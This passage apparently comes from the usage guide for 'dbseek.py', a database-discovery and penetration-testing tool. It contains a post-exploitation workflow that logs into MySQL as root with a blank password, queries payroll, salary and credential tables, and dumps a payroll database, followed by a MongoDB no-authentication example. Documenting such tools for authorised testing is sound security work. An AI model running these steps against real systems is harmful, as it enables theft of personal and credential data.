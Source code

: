 **Safety Note**:
- Enumeration uses **read-only** queries only
- No data modification or destruction
- Queries: `SHOW DATABASES`, `SELECT datname`, `list_database_names()`

### Workflow 5: Post-Exploitation Data Access
**Objective**: Access and extract data from compromised databases

```bash
# 1. Discover + test + enumerate
./dbseek.py -t -e -w 20

# 2. Select high-value target
# Target: 192.168.1.50 - MySQL - root:(blank) - Databases: payroll, hr_database

# 3. Connect
mysql -h 192.168.1.50 -u root

# 4. Enumerate tables
USE payroll;
SHOW TABLES;

# 5. Extract data
SELECT * FROM employees LIMIT 10;
SELECT * FROM salaries WHERE salary > 100000;

# 6. Search for sensitive data
SELECT * FROM users WHERE username LIKE '%admin%';
SELECT * FROM credentials;

# 7. Dump database
mysqldump -h 192.168.1.50 -u root payroll > payroll_dump.sql
```

## Exploitation Examples

### Example 1: MongoDB No Auth
**Scenario**: MongoDB exposed without authentication

```bash
# Discovery
$ ./dbseek.py -v
[CRITICAL] 192.168.1.52 (mongo-dev.company.local) - MongoDB
    ⚠ MongoDB no authentication required

# Enumeration
$ ./dbseek.py -e
[CRITICAL] 192.168.1.52 (mongo-dev.company.local) - MongoDB
    📊 MongoDB Databases: admin, config, local, app_db, user_db

# Manual access
$ mongo --host 192.168.1.52
> show dbs
admin     0.000GB
config    0.000GB
local     0.000GB
app_db    0.523GB
user_db   1.235GB

> use user_db
> db.users.find().pretty()
{
    "_id": ObjectId("..."),
    "username": "admin",
```